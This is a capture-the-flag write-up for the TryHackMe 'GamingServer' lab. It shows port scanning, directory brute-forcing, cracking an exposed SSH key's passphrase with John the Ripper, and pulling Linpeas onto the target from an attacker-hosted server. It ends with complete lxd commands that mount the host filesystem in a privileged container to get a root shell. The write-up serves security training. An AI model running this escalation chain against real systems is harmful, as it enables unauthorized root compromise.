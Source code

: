 ```yaml
---
description: https://tryhackme.com/room/gamingserver
---
```


# GamingServer

## Nmap Scan

```
nmap 10.10.162.73 -A -T4 -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## DirBuster

With only port 22 and 80 open lets take a look at port 80. Before going to the webpage lets run `DirBuster` as this will take some time. As this is an Apache server I have defined the extensions: php,bin and txt.

![Running DirBuster](<../../../.gitbook/assets/image (31) (1) (1).png>)

If we head over to the about page at: [http://10.10.162.73/about.html](http://10.10.162.73/about.html) we can seen an uploads button which takes us to: [http://10.10.162.73/uploads](http://10.10.162.73/uploads/). The uploads directory has also been defined as disallowed in robots.txt

![](<../../../.gitbook/assets/image (32) (1) (1).png>)

The uploads directory:

![/uploads/](<../../../.gitbook/assets/image (33) (1) (1).png>)

the dict.lst file appears to be a list of password and possibly even usernames. After a quick look at the file I added a few of my own lines. Some of the entries in this file are ones such as Summer2017 and winter2016. I created these again going from 2018-2020 using all seasons of the year and added entries with the first letter capitalized and uncapitalized.

The character in the meme.jpg file is Beaker from the Muppets so I added the name to the password file and may even use it as a username going forwards.

The manifesto does not contain much interesting information but does have an author name in it which we can use as a possible name. The manifesto could possibly mean the server has already been compromised? I added the author name to the password file just incase.

![](<../../../.gitbook/assets/image (34) (1) (1).png>)

At this point I check DirBuster to see what we have so far and we see some interesting entries for "secret".

![Checking DirBuster](<../../../.gitbook/assets/image (35) (1) (1).png>)

We browse to the secret directory and find a RSA key. Lets copy this to our local machine.

the two lines at the top indicate this file will likely require a passphrase when we try and connect to SSH. It is important to note that at this point we do not have a confirmed username.

![RSA key in the secret directory](<../../../.gitbook/assets/image (37) (1) (1).png>)

## John The Ripper

We can run the following command to convert the SSH key into a hash file for John to crack.

```
sudo python ssh2john.py /home/kali/Desktop/id_rsa > /home/kali/Desktop/key
```

{% hint style="info" %}
If the location of ssh2john.py is not defined in `$PATH` you will have to `cd` to its home directory which you can find by doing `locate ssh2john.py`
{% endhint %}

After the key has been converted to a hash file we can run john against the file using the dict.txt list we saved from the uploads directory earlier.

![](../../../.gitbook/assets/password.png)

Looks like the password has been found.

## Finding user

I actually got stuck on username enumeration for a good half hour or so and was running out of ideas. I found the answer when I was reading through the description of the box where it mentions "Can you gain access to this gaming server built by \*\*amateurs \*\*with no experience of web development and take advantage of the deployment system."

When I read the line regarding amateurs I decided to try the basics and looked at the page source for the root page.

![Checking the page source on root directory](<../../../.gitbook/assets/image (40) (1).png>)

I then tried the following using `ssh -i` to define the key to use. I entered the password and was able to access as user.

![SSH access](<../../../.gitbook/assets/image (41) (1).png>)

From here we can Grab the user.txt flag which is located in the current directory where we logged in:

![hash has been removed from image](<../../../.gitbook/assets/image (42) (1).png>)

## Privilege Escalation

First of all I tried `sudo -l` this was asking for a password unfortunately. I tried the "letmein" password and this did not work which means the SSH passphrase is different from the one used for the local account.

Lets see if Linpeas can help us here. Created a Python HTTPServer in the directory hosting Linpeas:

![](<../../../.gitbook/assets/image (43) (1).png>)

Download the script onto the victim machine:

![](<../../../.gitbook/assets/image (44) (1) (1).png>)

Run the script and pipe it to `tee` for easier viewing as Linpeas usually exceeds the terminal buffer.

![](<../../../.gitbook/assets/image (45) (1).png>)

I went through the results and found the following:

![](<../../../.gitbook/assets/image (46) (1).png>)

Normally sudo would be a interesting find but, seeing as we do not have the users local account password we are unable to do anything with it. Linpeas has picked up the group "lxd" as interesting and is not a group I have come across before.

I started researching this group and the first auto suggestion by Google essentially pushed me in the right direction.

![](<../../../.gitbook/assets/image (47) (1).png>)

I went to one of the front page articles and found a great one which breaks down the escalation technique and explains what LXD is: [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

"LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

One of them is to use the LXD API to mount the host’s root filesystem into a container. This gives a low-privilege user root access to the host filesystem."

## Exploitation

Run the following command on the attacking machine:

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

This will create a file called "alpine-v3.12-x86\_64-20200831\_1823.tar.gz" the version number will change as the package gets updated. At the time of writing the version above is the latest.

Fire up the Python HTTP Server again with `python -m SimpleHTTPServer` in the directory where alpine is stored.

`cd` to the `/tmp/` directory and use `wget` to download the file.

![](<../../../.gitbook/assets/image (48) (1).png>)

After this run the following command to import the image:

```
lxc image import ./alpine-v3.12-x86_64-20200831_1823.tar.gz --alias myimage
```

Now that the image has been imported run the following commands to obtain a root shell in the image mount point:

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](<../../../.gitbook/assets/image (49) (1).png>)

As we are inside a container we need to cd over to /mnt/root to see the local machine files. use the following command `cd /mnt/root/root`

![Grabbing root](<../../../.gitbook/assets/image (54) (1).png>)

From here we can grab the root flag and submit it.
